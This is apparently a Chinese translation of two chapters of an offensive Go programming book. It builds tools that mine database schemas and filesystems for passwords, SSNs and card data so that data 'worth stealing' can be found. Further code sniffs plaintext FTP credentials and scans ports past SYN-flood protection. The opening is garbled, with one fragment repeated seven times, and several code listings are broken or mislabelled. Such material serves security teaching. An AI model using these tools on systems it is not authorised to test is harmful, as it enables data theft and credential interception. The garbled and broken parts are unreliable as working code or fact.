(https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。

## 使用DOCKER设置数据库

在本节中，你将安装

`MongoDB` 是你在本章中使用的 NoSQL 数据库。与关系数据库不同，`MongoDB` 是无模式（scheeless），这意味着它不遵循预定义的、化的组织规则。这解释了为什么你会在列表 7-1 中只插入命令而没有任何架构定义。首先，使用以下命令安装 Docker 镜像：

```bash
$ docker run --name some-mongo -p 27017:27017 mongo
```

该命令从 Docker 仓库下载名为 `mongo` 的镜像，启动名为 `some-mongo` 的新实例——你给实例命的名字是任意的——并将本地端口 `27017` 映射到容器端口 `27017`。端口映射是关键，因为它允许我们从操作系统直接访问数据库实例。如果没有它将无法访问。

通过列出运行的容器来检查容器是否自动启动：

```bash
$ docker ps
```

如果容器没有自动启动，执行以下命令：

```bash
$ docker start some-mongo
```

启动命令会让容器运行。

一旦容器启动，使用 `run` 命令连接到 `MongoDB` 实例——传递 `MongoDB` 客户端；这样就可以与数据库交互以填充数据：

```bash
$ docker run -it --link some-mongo:mongo --rm mongo sh \
-c 'exec mongo'
"$MONGO_PORT_27017_TCP_ADDR:$MONGO_PORT_27017_TCP_PORT/store"
```

这个神奇的命令运行了一个一次性的、第二个 Docker 容器，其中安装了 `MongoDB` 二进制文件——所以你需要在主机操作系统上安装该二进制文件——并使用它连接到 `some-mongo` Docker 的 `MongoDB` 实例。在这个示例中，你正在连接到名为 `test` 的数据库。

在列表 7-1 中，你向插入了一个文档数组

`transactions`：集合。（所有根目录下的代码列表均存在提供的 github 仓库 https://github.com/blackhat-go/bhg/ 中。）

```go
> db.transactions.insert([
{
  "ccnum" : "444433332221111",
  "date" : "2019-01-05",
  "amount" : 100.12,
  "cvv" : "1234",
  "exp" : "09/2020"
},
{
  "ccnum" : "4444123456789012",
  "date" : "2019-01-07",
  "amount" : 2400.18,
  "cvv" : "5544",
  "exp" : "02/2021"
},
{
  "ccnum" : "4465122334455667",
  "date" : "2019-01-29",
  "amount" : 1450.87,
  "cvv" : "9876",
  "exp" : "06/2020"
}
]);
```

列表 7-1：向 `MongoDB` 集合中插入事务 (`/ch-7/db/seed-mongo.js`)

搞定！你现在创建了 `MongoDB` 数据库实例，并为其填充了一个包含三个用于查询的虚拟文档的事务集合。稍后你将进入查询部分，在此之前，你应该了解如何安装和填充传统的 SQL 数据库。

## 安装和填充PostgreSQL和MySQL

## 数据库

`PostgreSQL`（也称为 `Postgres`）和 `MySQL` 可能是最常见、最知名的企业级开源关系型数据库管理系统，且两者都有官方的 Docker 镜像。由于它们具有相似性且安装步骤上有通用重叠，我们在这里将两者的安装说明合在一起。

首先，以与上一节中 `MongoDB` 示例类似的方式，下载并运行相应的 Docker 镜像：

```bash
$ docker run --name=some-mysql -p 3306:3306 -e
MYSQL_ROOT_PASSWORD=password -d mysql
$ docker run --name=some-postgres -p 5432:5432 -e
POSTGRES_PASSWORD=password -d postgres
```

容器构建完成后，确认它们正在运行。如果未运行，你可以通过 `docker start <name>` 命令启动它们。

接下来，你可以从适当的客户端连接到容器——再次使用 Docker 镜像以防止在主机上安装任何额外文件——并继续创建和填充数据库。列表 7-2 展示了 `MySQL` 逻辑。

```bash
$ docker run -it --link some-mysql:mysql --rm mysql sh -c \
'exec mysql -h "$MYSQL_PORT_3306_ADDR" -p "$MYSQL_PORT_3306_PORT" \
-u root -p"$MYSQL_ENV_MYSQL_ROOT_PASSWORD"'
mysql> create database store;
mysql> use store;
mysql> create table transactions(ccnum varchar(32), date date, amount float(7,2),
-> cvv char(4), exp date);
```

列表 7-2：创建并初始化 `MySQL` 数据库

该列表（以及接下来的列表一样）启动了一个一次性的 Docker shell，执行相应的数据库客户端二进制执行文件。它创建并连接到名为 `store` 的数据库，然后创建一个名为 `transactions` 的表。这两个列表是相同的，区别在于它们针对不同的数据库系统进行了定制。

在列表 7-3 中，你可以看到 `Postgres` 的逻辑，它的语法与 `MySQL` 略有不同。

```bash
$ docker run -it --rm --link some-postgres:postgres postgres postgres -h postgres -U postgres
postgres=# create database store;
postgres=# \connect store
store=# create table transactions(ccnum varchar(32), date date, amount numeric, currency char(4), exp date);
```

列表 7-3：创建并初始化 `Postgres` 数据库

在 `MySQL` 和 `Postgres` 中，插入事务的语法是相同的。例如，在列表 7-4 中，你可以看到如何向 `MySQL` 事务集合中插入三个文档。

```mysql
mysql> insert into transactions(ccnum, date, amount, cvv, exp) values
-> ('44433333221111', '2019-01-05', '1234', '2020-09-01');
mysql> insert into transactions(ccnum, date, amount, cvv, exp) values
-> ('4441234456789012', '2019-01-07', '2400.18', '5544', '2021-02-01');
mysql> insert into transactions(ccnum, date, amount, cvv, exp) values
-> ('4465122334455667', '2019-01-29', '1450.87', '9876', '2019-06-06');
```

列表 7-4：向 `MySQL` 数据库插入事务 (`/ch-7/db/seed-pg-mysql.sql`)

尝试向你的 `Postgres` 数据库中插入相同的三个文档。

## 安装和填充Microsoft SQL Server

`SQL` `Server`

在 2016 年，微软开始转向开源。尽管有官方的 Docker 包，但 Docker 并没有像 `MySQL` 或 `Postgres` 那样提供预配置的镜像。不过，你可以通过以下命令安装并运行 `SQL` `Server`：

```bash
$ docker run --name=some-sqlserver -p 1433:1433 -e "ACCEPT_EULA=Y" -e "MSSQL_SA_PASSWORD=YourPassword123!" -d mcr.microsoft.com/mssql/server:2019-latest
```

容器构建完成后，确认它们正在运行。如果未运行，你可以通过 `docker start <name>` 命令启动它们。


接下来，你可以从适当的客户端连接到容器——再次使用 `Docker` 镜像以防止在主机上安装任何额外文件——并继续创建和填充数据库。列表 7-5 展示了 `SQL Server` 逻辑。

```bash
$ docker run -it --link some-sqlserver:latest --rm mcr.microsoft.com/mssql/server:2019-latest /opt/mssql-tools/bin/sqlcmd -U sa -P YourPassword123!
1> create database store;
1> use store;
1> create table transactions (ccnum varchar(32), date date, amount float(7,2), cvv char(4), exp date);
```

列表 7-5：创建并初始化 `SQL Server` 数据库

该列表（以及接下来的列表一样）启动了一个一次性的 `Docker` shell，执行相应的数据库客户端二进制执行文件。它创建并连接到名为 `store` 的数据库，然后创建一个名为 `transactions` 的表。这两个列表是相同的，区别在于它们针对不同的数据库系统进行了定制。

在列表 7-6 中，你可以看到 `SQL Server` 的逻辑，它的语法与之前的示例略有不同。

```bash
$ docker run -it --rm --link some-sqlserver:latest mcr.microsoft.com/mssql/server:2019-latest /opt/mssql-tools/bin/sqlcmd -U sa -P YourPassword123!
1> create database store;
1> use store;
1> create table transactions (ccnum varchar(32), date date, amount decimal(7,2), cvv char(4), exp date);
```

列表 7-6：创建并初始化 `SQL Server` 数据库

在 `MySQL` 和 `SQL Server` 中，插入事务的语法是相同的。例如，在列表 7-7 中，你可以看到如何向 `SQL Server` 事务表中插入三个文档。

```sql
1> insert into transactions(ccnum, date, amount, cvv, exp) values
1> ('44433333221111', '2019-01-05', 100.12, '1234', '2020-09-01');
1> insert into transactions(ccnum, date, amount, cvv, exp) values
1> ('4441234456789012', '2019-01-07', 2400.18, '5544', '2021-02-01');
1> insert into transactions(ccnum, date, amount, cvv, exp) values
1> ('4465122334455667', '2019-01-29', 1450.87, '9876', '2019-06-06');
```

列表 7-7：向 `SQL Server` 数据库插入事务 (/ch-7/db/seed-sqlserver.sql)

尝试向你的 `SQL Server` 数据库中插入相同的三个文档。

## 查询 SQL 数据库

`Go` 包含一个名为 `database/sql` 标准包，它定义了与 SQL 和类 SQL 数据库交互的接口。基础实现自动包含了连接池和事务支持等功能。遵循此接口的数据库驱动程序会自动继承这些能力，并且基本上是互换的，因为驱动程序之间的 API 保持一致。无论你使用的是 `Postgres`、`MSSQL`、`MySQL` 还是其他驱动程序，你代码中的函数调用和实现都是相同的。这使得客户端可以用极少的代码更改来切换后端数据库。驱动程序可以实现特定数据库的功能并使用不同的 SQL 语法，但函数调用几乎完全相同。

因此，我们将向你展示如何连接到一个 SQL 数据库——`MySQL`，而将其他 SQL 数据库留给你作为练习。你首先通过以下命令安装驱动程序：

```bash
$ get github.com/go-sql-driver/mysql
```

然后，你可以创建一个基础客户端，连接到数据库并从你的事务表中检索信息——使用列表 7-7 中的脚本。

```go
package main

import (
  "database/sql"
  "fmt"
  "log"

  "github.com/go-sql-driver/mysql"
)

func main() {
    db, err := sql.Open("mysql", "root:password@tcp(127.0.0.1:3360)/store")
    if err != nil {
        log.Panicln(err)
    }
    defer db.Close()

    var (
        ccnum, date, cvv, exp string
        amount                float32
    )

    rows, err := db.Query("SELECT ccnum, date, amount, cvv, exp FROM transactions")
    if err != nil {
        log.Panicln(err)
    }
    defer rows.Close()
    for rows.Next() {
        err := rows.Scan(&ccnum, &date, &amount, &cvv, &exp)
        if err != nil {
            log.Panicln(err)
        }
        fmt.Println(ccnum, date, amount, cvv, exp)
    }
    if rows.Err() != nil {
        log.Panicln(err)
    }
}
```

列表 7-7: 连接并查询 `MySQL` 数据库 (/ch-7/db/mysql-connect/main.go)

代码开始导入 `Go` 的 `database/sql` 包 ①。这允许你利用 `Go` 优秀的标准 SQL 库接口与数据库交互。你还导入了你的 `MySQL` 数据库驱动程序 ②。开头的下划线表示它是匿名导入的，这意味着不会包含其导出的类型，但驱动程序会向 `sql` 包注册自己，以便 `MySQL` 驱动程序本身处理函数调用。

接下来，你调用 `sql.Open()` 来建立与数据库的连接 ③。第一个参数指定使用哪个驱动程序——`mysql`——第二个参数指定你的连接字符串。当你查询数据库时，传递一个 SQL 语句来从事务表中选择所有行 ④，并遍历行，随后将数据读取到变量中并打印值 ⑤。

这就是查询 `MySQL` 数据库需要执行的所有操作。使用不同的后端数据库只需要对代码进行以下细微更改：

- 1. 导入正确的数据库驱动程序。
- 2. 修改传递给 `sql.Open()` 的参数。
- 3. 调整 SQL 语法以适应你的后端数据库所需的格式。

在可用的几个数据库驱动程序中

## 构建数据库挖掘器

在本节中，你将创建一个工具，该工具检查数据库模式（例如列名）以确定数据是否值得窃取。例如，假设你想找到密码、哈希值、社会安全号和信用卡。与其构建一个挖掘各种后端数据库的单体实用程序，你将创建多个独立的实用程序——每个数据库一个——并实现定义的接口以确保实现之间的一致性。这种灵活性对于这个示例来说可能有些过之了，但它给了你创建可重用和可移植代码的机会。

接口应该是极简的，由几个类型和函数组成，并且应该要求实现单个方法来检索数据库模式。列表 7-8 名为 `dbminer.go` 定义了数据库挖掘器的接口。

```go
package dbminer

import (
    "fmt"
    "regexp"
)

1 type DatabaseMiner interface {
    GetSchema() (*Schema, error)
}

2 type Schema struct {
    Databases []Database
}

type Database struct {
    Name string
    Tables []Table
}

type Table struct {
    Name string
    Columns []string
}

3 func Search(m DatabaseMiner) error {
    s, err := m.GetSchema()
    if err != nil {
        return err
    }

    re := getRegex()
    for _, database := range s.Databases {
        for _, table := range database.Tables {
            for _, field := range table.Columns {
                for _, r := range re {
                    if r.MatchString(field) {
                        fmt.Printf("[+] HIT: %s\n", field)
                    }
                }
            }
        }
    }
    return nil
}

func getRegex() []*regexp.Regexp {
    return []*regexp.Regexp{
        regexp.MustCompile(`(?i)social`),
        regexp.MustCompile(`(?i)ssn`),
        regexp.MustCompile(`(?i)password?`),
        regexp.MustCompile(`(?i)hash`),
        regexp.MustCompile(`(?i)ccnnum`),
        regexp.MustCompile(`(?i)card`),
        regexp.MustCompile(`(?i)security`),
        regexp.MustCompile(`(?i)key`),
    }
}

/* 为了简洁起见，省略了无关代码 */
```

列表 8: 数据库挖掘器实现 (/ch-7/db/dbminer/dbminer.go)

你在上一节中构建的实用程序处理特定数据库的逻辑。例如，`MySQL` 数据库实现将使用 `MySQL` 驱动程序来获取模式。

```go
mm, err := New(os.Args[1])
if err != nil {
    panic(err)
}
if err := dbminer.Search(mm); err != nil {
    panic(err)
}
```

列表 7-9: 创建一个 `MongoDB` 数据库挖掘器 (/ch-7/db/mongo/main.go)

你首先导入了 `dbminer` 包，它定义了你的 `DatabaseMiner` 接口 ①。然后，你定义了一个 `MongoDBMiner` 类型将实现该接口 ②。为了方便起见，你定义了一个 `New()` 函数来创建 `MongoDBMiner` 类型的新实例 ③，并调用一个名为 `connect()` 的方法，该方法建立了与数据库的连接 ④。这部分逻辑本质上是启动了你的代码，以与列表 7-6 中讨论的类似的方式连接到数据库。

代码中最有趣的部分是你对 `GetSchema()` 接口方法的实现 ⑤。与列表 7-6 中之前的 `MongoDB` 示例代码不同，你现在正在检查 `MongoDB` 元数据，首先检索数据库名称 ⑥，然后遍历这些数据库以检索每个数据库的集合名称 ⑦。最后，该函数检索原始文档，与典型的 `MongoDB` 查询不同，它使用了延迟反序列化（lazy unmarshalling）⑧。这允许你将记录显式地反序列化到一个通用结构中，你可以在其中检查字段名 ⑨。如果没有延迟反序列化，你必须定义一个显式类型（可能使用 `bson` 标签属性），以便指示你的代码如何将数据反序列化到你定义的结构体中。在这种情况下，你并不知道（或不在乎）字段类型或结构——你只需要字段名（而不是数据）——这就是你如何在不需要预知数据结构的情况下反序列化结构化数据的方法。

你的 `main()` 函数期望将 `MongoDB` 实例的 IP 地址作为唯一参数，调用你的 `New()` 函数来启动所有内容，然后调用 `dbminer.Search()` 并传入你的 `MongoDBMiner` 实例。记住，`dbminer.Search()` 会对接收到的 `DatabaseMiner` 实例调用 `GetSchema()`；这是你对该函数的 `MongoDBMiner` 实现，结果是创建了 `dbminer.Schema`，然后根据列表 7-8 中的正则表达式列表对其进行搜索。

当你运行你的工具时，你将获得以下输出：

```
$ go run main.go 127.0.0.1
[DB] = store
[TABLE] = transactions
[COL] = _id
[COL] = ccnum
[COL] = date
[COL] = amount
[COL] = cvv
[COL] = exp
[+] HIT: ccnum
```

你找到了匹配项！它看起来可能并不漂亮，但它完成了任务——成功定位了带有 `ccnum` 字段的数据库集合。

有了你的 `MongoDB` 实现，在下一节中，你将对该 `MySQL` 后端数据库执行相同的操作。

## 实现 MySQL 数据库挖掘器

为了让你的 `MySQL` 实现工作，你将检查 `information_schema.columns` 表。该表维护了所有数据库及其结构的元数据，包括表名和列名。为了让数据最易消费，请使用以下 SQL 查询，它移除了对你的分页工作没有影响的一些内置 `MySQL` 数据库信息：

```sql
SELECT TABLE_SCHEMA, TABLE_NAME, COLUMN_NAME FROM
columns
WHERE TABLE_SCHEMA NOT IN ('mysql', 'information_schema', 'performance_schema', 'sys')
ORDER BY TABLE_SCHEMA, TABLE_NAME
```

查询产生的结果类似于下面：

| TABLE_SCHEMA | TABLE_NAME | COLUMN_NAME |
| :--- | :--- | :--- |
| store | transactions | cnum |
| store | transactions | date |
| store | transactions | amount |
| store | transactions | cvv |
| store | transactions | exp |
| --snip-- | | |

虽然使用该查询来检索架构信息非常直接，但你代码中的复杂性来自于在定义 `GetSchema()` 函数时，在逻辑上尝试对每一行进行区分和分类。例如，连续的输出行可能也也可能属于同一个数据库或表，因此将行关联到正确的 `dbminer.Database` 和 `dbminer.Table` 实例变成了一项相当棘手的任务。

列表 7-10 定义了该实现。


```go
type MySQLMiner struct {
  Host string
  Db sql.DB
}

func New(host string) (*MySQLMiner, error) {
  m := MySQLMiner(Host: host)
  err := m.connect()
  if err != nil {
    return nil, err
  }
  return &m, nil
}

func (m *MySQLMiner) connect() error {
  db, err := sql.Open(
    "mysql",
    fmt.Sprintf("root:password@tcp(:3306)/information_schema", m.Host))
  if err != nil {
    log.Panic(err)
  }
  m.Db = &db
  return nil
}

func (m *MySQLMiner) GetSchema() (*dbminer.Schema, error) {
  var s = "SELECT TABLE_SCHEMA, TABLE_NAME, COLUMN_NAME
FROM columns
WHERE TABLE_SCHEMA NOT IN
('mysql', 'information_schema', 'performance_schema', 'sys')
ORDER BY TABLE_SCHEMA, TABLE_NAME"
  schemarows, err := m.Db.Query(s)
  if err != nil {
    return nil, err
  }
  defer schemarows.Close()

  var s *dbminer.Schema
  var prevschema, prevtable string

  for schemarows.Next() {
    var curschema, curtable, curroll string
    if err := schemarows.Scan(&curschema, &curtable, &curroll); err != nil {
      return nil, err
    }

    if curschema != prevschema {
      if s == nil {
        s = &dbminer.Schema{}
      }
      s.Databases = append(s.Databases, &dbminer.Database{Name: curschema})
      prevschema = curschema
      prevtable = ""
    }

    if curtable != prevtable {
      s.Databases[len(s.Databases)-1].Tables = append(s.Databases[len(s.Databases)-1].Tables, &dbminer.Table{Name: curtable})
      prevtable = curtable
    }

    s.Databases[len(s.Databases)-1].Tables[len(s.Databases[len(s.Databases)-1].Tables)-1].Columns = append(s.Databases[len(s.Databases)-1].Tables[len(s.Databases[len(s.Databases)-1].Tables)-1].Columns, curroll)
  }

  if err = schemarows.Err(); err != nil {
    return nil, err
  }

  return s, nil
}
```

在本节中，你将构建一个工具，该工具可以递归地遍历用户提供的文件系统路径，并与你认为在后渗透攻击练习中很有用的“有趣”文件名列表进行匹配。这些文件可能包含个人身份识别信息、用户名、密码、系统登录信息以及密码数据库文件。

该工具专门查看文件名而非文件内容。由于 `Go` 的 `path/filepath` 包中包含了可以用于轻松遍历目录结构的标准功能，这使得脚本变得简单许多。你可以在列表 7-11 中看到该工具。

```go
package main

import (
  "fmt"
  "log"
  "os"
  "path/filepath"
  "regexp"
)

var regexes = []*regexp.Regexp{
  regexp.Compile(`(?i)user`),
  regexp.Compile(`(?i)password`),
  regexp.Compile(`(?i)kdb`),
  regexp.Compile(`(?i)login`),
}

func walkFn(path string, fs os.FileInfo, err error) error {
  for _, r := range regexes {
    if r.MatchString(path) {
      fmt.Printf("[+] HIT: %s\n", path)
    }
  }
  return nil
}

func main() {
  root := os.Args[1]
  if err := filepath.Walk(root, walkFn); err != nil {
    log.Panic(err)
  }
}
```

**Listing 7-11:** 遍历并搜索文件系统 (`/ch-7/filesystem/main.go`)

与你之前的数据库挖掘实现相比，文件系统的设置和逻辑可能看起来过于简单。与你创建数据库实现的方式类似，你定义了一个正则表达式列表来识别有趣的文件名。为了保持代码极简，我们将列表限制在几项内容，但你可以扩展该列表以适应更实际的用法。

接下来，你定义了一个名为 `walkFn()` 的函数，它接受一个文件路径和一些额外的参数。该函数遍历你的正则表达式列表并检查匹配项，将它们显示在标准输出上。`walkFn()` 函数在 `main()` 函数中使用，并作为参数传递给 `filepath.Walk()`。`Walk` 函数期望两个参数——一个根路径和一个函数（在本例中为 `walkFn()`）——它会从作为根路径提供的值开始递归地遍历目录结构，对遇到的每个目录和文件调用 `walkFn()`。

完成工具构建后，导航到桌面并创建以下目录结构：

```
+ $ targetpath/
targetpath/
  --- anotherpath
    --- nothing.txt
    --- users.csv
  --- file1.txt
  --- yetanotherpath
  --- nada.xlsx
  --- passwords.xlsx
(2 个目录，5 个文件)
```

针对此 `targetpath` 目录运行你的工具将产生以下输出，证实了你的代码运行良好：

```bash
$ go run main.go /somepath
[+] HIT: somepath/anotherpath/users.csv
[+] HIT: somepath/yetanotherpath/passwords.xlsx
```

就是这些了。你可以通过包含额外的或更具体的正则表达式来改进示例代码。此外，我们鼓励你通过仅将正则表达式检查应用于文件名（而非目录）来改进代码。另一个建议你做的改进是定位并标记具有最近修改或访问时间的特定文件。这些元数据可以引导你发现更重要的内容，包括作为关键业务流程一部分的文件。

## 总结

在本章中，我们深入探讨了数据库交互和文件系统遍历，使用了 `Go` 的原生包和第三方库来检查数据库元数据和文件名。对于攻击者来说，这些资源通常包含价值信息，我们创建了各种工具来允许我们搜索这些感兴趣的信息。

在下一章中，你将查看实际的包处理。具体而言，你将学习如何嗅探和操作网络包。

# 8 原始包处理


在本章中，你将学习如何捕获和处理网络包。你可以将包处理用于许多目的，包括明文身份凭据、修改包的应用程序功能，或欺骗和污染流量。你还可以将其用于 `SYN` 扫描以及通过 `SYN` 洪水防护进行端口扫描等。

我们将介绍来自 `Google` 优秀的 `gopacket` 包，它将使你能够解码包并重组流量流。该包允许你使用伯克利数据包过滤器（`BPF`，也称为 `tcpdump` 语法）来过滤流量；读写 `.pcap` 文件；检查各种层和数据；并操作包。

我们将通过几个示例向你展示如何识别设备、过滤结果，并创建一个可以绕过 `SYN` 洪水防护的端口扫描器。

## 设置你的环境

在处理本章代码之前，你需要设置你的环境。首先，通过输入以下命令安装 `gopacket`：

```bash
$ go get github.com/google/gopacket
```

现在，`gopacket` 依赖外部库和驱动程序来绕过系统的协议栈。如果你打算在 `Linux` 或 `macOS` 上编译本章的示例，你需要安装 `libcap-dev`。你可以使用大多数包管理工具（如 `apt`、`yum` 或 `brew`）完成此操作。

`BPF` 允许你限制捕获和显示的内容，以便你只看到相关的流量。它通常用于通过协议和端口来过滤流量。例如，你可以创建一个过滤器来查看所有发往 `80` 端口的 `TCP` 流量。你也可以根据目标主机来过滤流量。关于 `BPF` 语法的详细讨论超出了本书的范围。如需了解更多使用 `BPF` 的方法，请参阅 `http://www.tcpdump.org/manpages/pcap-filter.7.html`。

列表 8-3 显示了代码，该代码对流量进行过滤，只捕获发送或源自 `80` 端口的 `TCP` 流量。

```go
package main

import (
  "fmt"
  "log"
  "github.com/google/gopacket"
  "github.com/google/gopacket/pcap"
)

var var (
  iface = "enp0s5"
  snaplen = int32(1600)
  promisc = false
  timeout = pcap.BlockForever
  filter = "tcp and port 80"
  devFound = false
)

func main() {
  devices, err := pcap.FindAllDevs()
  if err != nil {
    log.Panicln(err)
  }

  for _, device := range devices {
    if device.Name == iface {
        devFound = true
    }
  }

  if !devFound {
    log.Panicf("Device named %s does not exist\n", iface)
  }

  handle, err := pcap.OpenLive(iface, snaplen, promisc, timeout)
  if err != nil {
    log.Panicln(err)
  }

  defer handle.Close()

  if err := handle.SetBPFFilter(filter); err != nil {
    log.Panicln(err)
  }

  source := gopacket.NewPacketSource(handle, handle.LinkType())

  for packet := range source.Packets() {
    fmt.Println(packet)
  }
}
```

**Listing 8-3:** 使用 `BPF` 过滤器捕获特定的网络流量 (`/ch-filter/main.go`)

代码开始时定义了设置数据包捕获所需的几个变量。其中包括你想要捕获数据的接口名称、快照长度（每帧要捕获的数据量）、混杂模式变量（决定你将运行运行混杂模式）以及你的超时时间。此外，你定义了 `BPF` 过滤器：`tcp and port 80`。这将使你只捕获符合这些标准的数据包。

在你的 `main()` 函数中，你列出了所有可用设备，并遍历它们以确定你所需的捕获接口是否存在于设备中。如果接口名称不存在，程序将 `panic`（崩溃），并声明它是无效的。

`main()` 函数的剩余是你的捕获逻辑。从高层角度来看，你首先需要获取或创建一个 `*pcap.Handle`，它允许你读取和注入数据包。使用该句柄，你就可以应用 `BPF` 过滤器并创建一个新的数据包数据源，从那里读取数据包。

你通过调用 `pcap.OpenLive` 来创建 `*pcap.Handle`（在代码中命名为 `handle`）。该函数接收接口名称、快照长度、定义是否为混杂模式的布尔值以及一个超时值。这些输入变量都是在 `main()` 函数之前定义的，正如我们之前详细说明的那样。调用 `handle.SetBPFFilter(filter)` 为你的句柄设置 `BPF` 过滤器，然后在调用 `gopacket.NewPacketSource(handle, handle.LinkType())` 时将 `handle` 作为输入以创建一个新的数据包数据源。第二个输入值 `handle.LinkType()` 定义了处理数据包时使用的解码器。最后，你通过对 `source.Packets` 使用循环（它返回一个通道）实际上从线路上读取数据包。

正如你可能从书中之前的示例中记得，对通道进行循环会导致循环在没有数据可从通道中读取时发生阻塞。当数据包到达时，你读取并将其内容打印到屏幕上。

输出应该类似于列表 8–4。请注意，该程序需要提升权限，因为我们正在通过网络读取原始内容。

```
$ go build -o filter && sudo ./filter

PACKET: 74 bytes, wire length 74 cap length 74 @ 2020-04-26 08:44:43.074187
-0500 CDT
- Layer 1 (14 bytes) = Ethernet {Contents=[..14..] Payload=[..60]
SrcMAC=00:1c:42:cf:57:11 DstMAC=90:72:40:04:33:c1 EtherType=IPv4
Length=0
- Layer 2 (20 bytes) = IPv4 {Contents=[..20..] Payload=[..40..] Version=4
IHL=5
TOS=0 Length=60 Id=9988 Flags=DF FragOffset=0 TTL=64 Protocol=TCP
Checksum=55712
SrcIP=10.0.1.20 DstIP=54.164.27.126 Options=[..] Padding=[..1]
- Layer 3 (40 bytes) = TCP {Contents=[..40..] SrcPort=51064
DstPort=80
```

嗅探并显示明文密码

你所做的修改涉及大约 10 行代码。首先，你更改 `BPF` 过滤器以仅捕获目标为端口 `21` 的流量（`FTP` 常用的端口）。代码在处理数据包之前保持不变。

处理数据包时，你首先从数据包中提取应用层并检查它实际上是否存在，因为应用层包含了 `FTP` 命令和数据。你通过检查 `packet.ApplicationLayer()` 的返回值是否为 `nil` 来查找应用层。假设数据包中存在应用层，通过调用 `appLayer.Payload()` 从该层提取负载（`FTP` 命令/数据）。还有类似的方法可以提取和检查其他层和数据，但你只需要应用层负载。提取负载后，你再检查负载是否包含 `USER` 或 `PASS` 命令，这表明它是登录序列的一部分。如果是，将负载显示在屏幕上。

**Listing 8-5:** 捕获 `FTP` 身份凭据 (`/ch-8/ftp/main.go`)

```go
for packet := range source.Packets() {
  appLayer := packet.ApplicationLayer()
  if appLayer == nil {
    continue
  }
  payload := appLayer.Payload()
  if bytes.Contains(payload, []byte("USER")) {
    fmt.Print(string(payload))
  } else if bytes.Contains(payload, []byte("PASS")) {
    fmt.Print(string(payload))
  }
}
```


这是一个记录 `FTP` 登录尝试的示例运行：

```
$ go build -o ftp && sudo ./ftp
USER someuser
PASS password
```

当然，你可以改进这段代码。在这个示例中，如果有效负载（`payload`）中任何地方存在 `USER` 或 `PASS` 单词，将显示该有效负载。实际上，代码应该只搜索有效负载的开头，以消除误报——误报通常发生在这些关键词作为客户端和服务器之间传输的文件内容的一部分，或者作为 `PASSAGE` 或 `ABUSER` 等较长单词的一部分出现时。我们鼓励你将这些改进作为一次学习练习来完成。

## 绕过 `SYN-flood` 保护进行端口扫描

在第 2 章中，你学习了如何创建一个端口扫描器。你通过多次迭代改进了代码，直到获得了一个产生准确结果的高性能实现。然而，在某些情况下，该扫描器仍然可能产生错误的结果。具体来说，当组织采用 `SYN-flood` 保护时，通常所有的端口（无论是开放、关闭还是过滤的）都会产生相同的数据包交换，以指示端口是开放的。这些被称为 `SYN cookies` 的保护措施可以防止 `SYN-flood` 攻击并模糊攻击面，从而产生误报。

当目标使用 `SYN cookies` 时，你如何确定一个服务是否在端口上监听，或者设备是否错误地显示该端口是开放的？毕竟，在这两种情况下，`TCP` 三次握手都完成了。大多数工具和扫描器（包括 `Nmap`）通过查看此序列（或根据你选择的扫描类型的某些变体）来确定端口状态。因此，你不能依靠这些工具来产生准确的结果。

然而，如果你考虑建立连接后发生了什么——例如数据交换，可能以服务横幅（`service-banner`）的形式存在——你就可以推出是否有实际的服务在响应。除非有服务正在监听，否则 `SYN-flood` 保护通常不会在初始的三次握手之后交换数据包，因此任何额外数据包的存在都可能表明服务的存在。

## 检查 `TCP` 标志

为了考虑到 `SYN cookies`，你必须扩展端口扫描能力，通过检查在建立连接后是否从目标接收到任何额外的数据包，来超越三次握手的范围。你可以通过嗅探数据包来实现，查看是否有任何数据包在传输时使用的 `TCP` 标志值表示额外的、合法的服务通信。

`TCP` 标志指示了关于数据包传输状态的信息。如果你查看 `TCP` 规范，你会发现标志存储在数据包头部第 14 位的单个字节中。该字节的每个位代表一个标志标志值。如果该位置的位设置为 1，则标志为“开启”；如果位设置为 0，则为“关闭”。表 8-1 显示了根据 `TCP` 规范标志在字节中的位置。

表 8-1：`TCP` 标志及其字节字节位置

| 位 | 7 | 6 | 5 | 4 | 3 | 2 | 1 | 0 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 标志 | `CWR` | `ECE` | `URG` | `ACK` | `PSH` | `RST` | `SYN` | `FIN` |

一旦你知道了你关心的标志的位置，你就可以创建一个过滤器来检查它们。例如，你可以寻找包含以下标志的数据包，这些标志可能表示正在监听的服务：

- `ACK` 和 `FIN`
- `ACK`
- `ACK` 和 `PSH`

由于你能够使用 `gopacket` 库捕获并过滤某些数据包，你可以构建一个实用程序，尝试连接到远程服务，嗅探数据包，并仅显示与这些 `TCP` 头部通信数据包的服务。假设所有其他服务由于 `SYN` 连接而错误地处于“开放”状态。

## 构建 `BPF` 过滤器

你的 `BPF` 过滤器需要检查指示数据包传输的特定标志值。如果我们在前面提到的标志被开启，标志字节将具有以下值：

- `ACK` 和 `FIN`: `00010001 (0x11)`
- `ACK`: `00010000 (0x10)`
- `ACK` 和 `PSH`: `00011000 (0x18)`

为了清晰起见，我们包含了二进制值的十六进制等效值，因为你将在过滤器中使用十六进制值。

总结来说，你需要检查 `TCP` 头部第 14 个字节（基于 0 开始的索引），仅过滤标志为 `0x11`、`0x10` 或 `0x18` 的数据包。以下是 `BPF` 过滤器的样子：

```
tcp[13] == 0x11 or tcp[13] == 0x10 or tcp[13] == 0x18
```

太棒了。你有了过滤器。

## 编写端口扫描器

现在你将使用该过滤器构建一个实用程序，建立完整的 `TCP` 连接并检查三次握手之外的数据包，以查看是否传输了其他数据包，这表明有实际的服务在监听。程序如列表 8-6 所示。简单起见，我们选择不对代码进行效率优化。然而，你可以通过进行类似于第 2 章中的那些优化来大幅改进这段代码。

```go
var (
	snaplen  = int32(320)
	promisc  = true
	timeout  = pcap.BlockForever
